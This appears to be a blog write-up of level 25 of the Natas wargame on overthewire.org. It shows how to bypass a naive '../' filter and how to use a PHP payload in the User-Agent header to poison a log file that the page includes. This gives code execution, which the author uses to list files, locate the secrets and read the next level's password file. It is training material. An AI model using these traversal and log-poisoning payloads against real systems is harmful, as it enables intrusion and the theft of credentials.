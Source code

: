```yaml
---
layout: post
title: natas-writeup - lv25-lv2?
excerpt: "Writeup for the Natas wargame on overthewire.org, from Level 25 to 2?."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / natas](http://www.overthewire.org/wargames/natas/)

## Level 25 ##

Looking at the source given to us, we control the `lang` parameter (e.g. `?lang=de` will switch the language to German). We should use this somehow get hold of the `natas_webpass` file - which means finding a way to make the `strstr` call evaluate to false.

{% highlight php %}
    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
{% endhighlight %}

Bypassing the traversal is rather easy - if your string is `....//bar`, the `str_replace` expression will result in `../bar`. Just to prove this out, you can trigger an error with `?lang=....//.`. So what next? `logRequest` looks interesting:

{% highlight php %}
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
{% endhighlight %}

It looks like we could technically have access to our own logs. E.g. if your session cookie is `PHPSESSID=nulnhkq2j9fkq5379sv4pd5n34` you can access it via `?lang=....//logs/natas25_nulnhkq2j9fkq5379sv4pd5n34.log`:

```
[28.08.2020 08::57:18] PostmanRuntime/7.26.3 "Directory traversal attempt! fixing request."
```

That's cool, but it doesn't get us the password. And it doesn't seem we have any way to control `$message` either. *However*, there's this odd looking `$_SERVER['HTTP_USER_AGENT']`. The `User-Agent` header is something we fully control and doesn't seem to be sanitised in any way. This will get written as part of the log and, being loaded with `include`, essentially means it will execute it as a php file. Does it mean we have command injection? Setting `User-Agent` to `<?php echo implode(",",scandir("."));?>` and reading the log gives us:

```
[28.08.2020 09::00:17] .,..,.htaccess,.htpasswd,index-source.html,index.php,index.php.tmpl,language,logs "Directory traversal attempt! fixing request."
```

Yay! We can now search for that elusive `natas_webpass` file using `<?php echo exec("find / -name natas_webpass");?>` - which tells us it's under `/etc`. Now I got stuck for a while there because I didn't realise this was a directory, not a file `>_<`. A quick `ls` reveals the file we need, and `<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>` takes care of the rest.


